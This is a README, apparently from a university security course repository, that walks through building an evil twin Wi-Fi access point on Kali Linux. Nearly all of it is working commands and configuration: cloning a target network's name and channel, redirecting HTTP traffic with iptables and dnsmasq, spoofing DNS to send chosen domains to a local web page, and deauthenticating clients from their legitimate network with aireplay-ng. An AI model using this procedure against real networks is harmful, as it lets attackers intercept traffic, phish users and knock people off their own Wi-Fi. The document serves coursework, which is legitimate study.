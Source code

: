 # How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.

# TODO
- need to capture the specific device with airodump-ng wlan1mon
- must make sure monitoring wlan1 is not connected to internet
- explain all steps in detail
- add screenshots

# Prerequisites
- kali linux
- may need an external usb wifi adapter

1. Update Device and install dependencies
	```
	sudo apt-get update
	sudo apt-get install dnsmasq dsniff mariadb-server
	git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
	cd setoolkit
	pip3 install  Cython
	pip3 install -r requirements.txt
	python3 setup.py
	```
	
2. Configure dns masq

	```
	mkdir /Desktop/eviltwin
	cd /Desktop/eviltwin
	touch dnsmasq.conf
	```

	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

3. Update NetworkManager.conf
	`vim /etc/NetworkManager/NetworkManager.conf`
	Add these lines to the end: 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

4. View available internet interfaces  
	`iwconfig`
	You should see several devices such as eth0, wlan0, lo, etc.
	![network interfaces](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/4.0-iwconfig.png)
	Now plug in your usb wireless adapter and run the command again.
	`iwconfig`
	You should see your new network device with the name of something like wlan1 for example. You will need this for the next step.
	![network interfaces 2](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/4.1-iwconfig.png)

5. Enable the wireless adapter  
	`ifconfig wlan1 up`

6. Ensure the wireless card is not connected to internet  
	`nmcli con`
	If it is connected, disconnect it from the network that is connected to our adapter
	`nmcli con down <UUID>`

7. Now we will create a monitor interface by putting the wireless adapter into monitor mode.  
	`airmon-ng start wlan1`
	You will likely see a message that says to run `airmon-ng check kill` to kill interfering processes. We can safely ignore this.

8. Look at iwconfig again and we can see our new network monitoring device.  
	`iwconfig`
	It will have a name such as `wlan1mon`.
	![network interfaces](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/8.0-iwconfig.png)

9. Find the device to spoof and record the BSSID (mac address), channel, and ESSID  
	 First update known manufacturer mac addresses of routers: `airodump-ng-oui-update`
	 Then get a list of all the devices broadcasting around you.
	`airodump-ng wlan1mon`
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit `ctrl+c` and then copy that line to a text file.
	Copy down the BSSID (MAC address), CH (channel), and ESSID (Wireless access point name) values.
	![airodump](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/9.0-airodump.png)

10. Now for fun, take a look at the devices connected to that network.  
	Enter the BSSID from the previous step in this command
	`airodump-ng -d <BSSID> wlan1mon`
	![devices](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/10.0-airodump.png)

11. Lets boost our signal strength, to the max legal limit in the US.  
	Note that not all wireless adapters support this.
	```
	ifconfig wlan1mon down     
	iw reg set US              
	ifconfig wlan1mon up       
	```
	Again check the signal strength with `iwconfig wlan1mon`

12. start up the evil twin AP (access point)  
	Give the evil twin the same name as the network you are attacking on the same channel.
	`airbase-ng -e "EvilTwinName" -c 11 wlan1mon`
	At this point you should be able to see your evil network listed under the available wireless networks on your phone or computer. 

13. Give the evil twin can access the internet.  
	`ifconfig at0`
	give at0 an ip address: `ifconfig at0 10.0.0.1 up`

14. route all traffic through the at0 interface.  
	The device wlan0, or eth0 in the second line, must be the interface connected to the internet for this to work. It must be a different interface than the monitoring device.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
	iptables -t nat -A PREROUTING -j MASQUERADE
	```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

15. enable port forwarding  
	`echo 1 > /proc/sys/net/ipv4/ip_forward`

16. evil twin is now setup, now need to allocate ip addresses to clients  
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`
	Congratulations, you have setup hotspot for yourself.

17. Now we can start a local Apache webserver that we can redirect traffic to.  
	Place a webpage under `/var/www/html/index.html`. Ours is named index.html. 
	Start the server: `sudo /etc/init.d/apache2 start`

18. Your apache server is running locally. Record the IP address  
	`hostname -I` will give you your devices ip address. Additionally you can use localhost which is `127.0.0.1`

19. Now we can do some dns spoofing.  
	Create a file `config/dnsspoof.conf`
	Add urls you want to spoof to it. For example this will redirect anyone trying to visit http://www.example.com to our local apache server. 
	`127.0.0.1	example.com`
	Note that the ip address and url must be separated by a tab, not spaces.
	You can add as many lines like this as you like for redirecting traffic.

20. Now deauthorize clients so they connect to our network instead of their legit network.  
	`aireplay-ng –deauth 0 -a <BSSID> wlan1mon`


# Caveats
Only works for http websites, not https websites 

## Sources
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
This one is good too: rootsh3ll.com/evil-twin-attack/





